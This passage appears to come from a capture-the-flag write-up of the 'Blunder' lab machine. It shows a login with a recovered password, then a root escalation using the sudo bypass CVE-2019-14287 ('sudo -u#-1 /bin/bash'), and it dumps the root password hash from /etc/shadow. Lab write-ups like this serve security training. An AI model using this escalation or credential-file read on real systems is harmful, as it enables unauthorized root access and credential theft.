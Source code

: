 The password is: `Password120`.

```
www-data@blunder:/var/www$ su hugo
Password:

hugo@blunder:~$ cat user.txt
9b8099236a4c7efcad6bf60293d921e5

hugo@blunder:~$ id
uid=1001(hugo) gid=1001(hugo) groups=1001(hugo)
```

## Privilege Escalation of Machine : from hugo to root

We can launch a bash shell as any user except root:

```
hugo@blunder:~$ sudo -l
Password:

Matching Defaults entries for hugo on blunder:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User hugo may run the following commands on blunder:
    (ALL, !root) /bin/bash
```

But that's in theory, because we can use `sudo < 1.8.28 - Security Bypass`
(CVE-2019-14287), see [EDB-47502](https://www.exploit-db.com/exploits/47502).

```
hugo@blunder:~$ sudo --version
sudo --version
Sudo version 1.8.25p1
Sudoers policy plugin version 1.8.25p1
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.25p1

hugo@blunder:~$ sudo -u#-1 /bin/bash

root@blunder:/home/hugo# id
uid=0(root) gid=1001(hugo) groups=1001(hugo)

root@blunder:/# cat /root/root.txt
df815831c59461a89906cac16c662282

root@blunder:/# cat /etc/shadow | grep root
root:$6$GmdDkez55tk.8Dvd$qDfa.WwHrKSBCswEaWLaSwFNCeNroew0pyxbsg8uO8a2/uq.XelP9Q/u5Cb9cBxO6hSyaVqt1lfU.3omw0ThC0:18228:0:99999:7:::
```

I wonder if there was a way to root via the shuan account.

[nmap]:https://nmap.org/
[ffuf]:https://github.com/ffuf/ffuf
[cewl]:https://github.com/digininja/CeWL
[pwncat]:https://pwncat.org/
[msf]:https://www.metasploit.com/
:
